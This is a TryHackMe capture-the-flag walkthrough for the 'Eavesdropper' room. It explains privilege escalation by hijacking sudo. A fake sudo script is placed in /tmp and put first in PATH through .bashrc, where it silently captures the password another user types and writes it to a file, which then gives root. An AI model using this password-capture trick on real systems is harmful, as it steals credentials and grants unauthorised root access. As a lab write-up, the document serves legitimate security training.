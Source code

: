 # TryHackMe - Eavesdropper
![Room Logo](./img/logo.png)  
Room Link => [Eavesdropper](https://tryhackme.com/room/eavesdropper)  
#### There are two ways to solve this machine.
- Intended Way  
- Unintended Way  

#### You can follow the steps below to solve it using the intended way or you can check out another writeup by `xyro` who found an unintended way to solve this machine which is something very few people would have found and his approach to solve this machine is also unique. Link to his write is here => [Xyro's Writeup](http://xyro.codes/THM/eavesdropper/writeup.html)

## Intended way :
1. LogIn to the machine using `idrsa.id-rsa` provided in task 1 with username `frank`  
2. Transfer <code>pspy</code> onto the target machine and run it for a while.  
There are a few things we notice.  
User frank is logging in via ssh and then running the command `sudo cat /etc/shadow` We can perform <code>sudo hijacking</code> on this.  
3. Time for [sudo hijacking](https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-hijacking)  
While creating our sudo executable, we have to be a little bit creative. Trying to get a reverse shell won't be useful. If u hijack sudo so that it spawns a reverse shell instead, the reverse shell u get back would be of the frank user because the sudo elevation hasn't happened yet. Instead we can capture the password entered by frank using a little bit of shell scripting. (Thanks you xyro for these words 😁).  

    Follow these steps to capture the password using our sudo executable.  
    1. `touch /tmp/sudo` creating our own sudo executable int tmp directory.  
    2. Content of sudo executable  
        ```
        #!/bin/bash  
        read -s pass # after executes the command, this will read the password entered by frank and store it in the pass variable  
        echo $pass > /home/frank/pass.txt # echoing the password from pass variable to pass.txt so that we can read it once catured.
        ```
    3. `chmod +x /tmp/sudo`  
    4. Modify you `$PATH` variable using `.bashrc`  
    ![bashrc](./img/bashrc.png)  
    Save the changes and wait for a few seconds after which you will see a pass.txt which has the password
    that can be used to switch to root.  
4. Copy the password from pass.txt and do `/usr/bin/sudo su` and get the root flag.

## Solved 😁
Once you are done with this.  
Make sure to ckeck out [Xyro's Writeup](http://xyro.codes/THM/eavesdropper/writeup.html)  
His method is super awesome 👍🏻